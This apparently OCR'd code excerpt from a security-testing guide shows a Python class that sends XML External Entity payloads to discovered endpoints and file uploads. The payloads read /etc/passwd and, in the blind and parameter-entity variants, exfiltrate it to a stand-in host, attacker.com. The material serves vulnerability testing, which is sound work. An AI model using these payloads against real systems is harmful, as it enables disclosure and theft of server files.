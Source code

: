 ### XML External Entity (XXE) Testing
```python
class XXETesting:
    def test_xxe_vulnerabilities(self):
        """Test XML External Entity injection vulnerabilities"""
        
        # Basic XXE payload
        basic_xxe = '''<?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE foo [
          <!ELEMENT foo ANY>
          <!ENTITY xxe SYSTEM "file:///etc/passwd">
        ]>
        <foo>&xxe;</foo>'''
        
        # Blind XXE payload
        blind_xxe = '''<?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE foo [
          <!ELEMENT foo ANY>
          <!ENTITY % xxe SYSTEM "http://attacker.com/xxe.dtd">
          %xxe;
        ]>
        <foo>test</foo>'''
        
        # Parameter entity payload
        param_entity_xxe = '''<?xml version="1.0"?>
        <!DOCTYPE root [
          <!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%file;'>">
          <!ENTITY % file SYSTEM "file:///etc/passwd">
          %param1;
        ]>
        <root>&exfil;</root>'''
        
        xml_endpoints = self.discover_xml_endpoints()
        payloads = [basic_xxe, blind_xxe, param_entity_xxe]
        
        for endpoint in xml_endpoints:
            for payload in payloads:
                response = self.send_xml_request(endpoint, payload)
                
                # Check for successful XXE
                if self.indicates_xxe_success(response):
                    self.report_vulnerability('XXE', endpoint, payload)
    
    def test_svg_xxe(self):
        """Test XXE through SVG file uploads"""
        
        svg_xxe_payload = '''<?xml version="1.0" standalone="yes"?>
        <!DOCTYPE test [
          <!ENTITY xxe SYSTEM "file:///etc/passwd">
        ]>
        <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg">
          <text font-size="16" x="0" y="16">&xxe;</text>
        </svg>'''
        
        upload_endpoints = self.get_file_upload_endpoints()
        
        for endpoint in upload_endpoints:
            response = self.upload_file(
                endpoint, 
                'malicious.svg', 
                svg_xxe_payload,
                content_type='image/svg+xml'
            )
```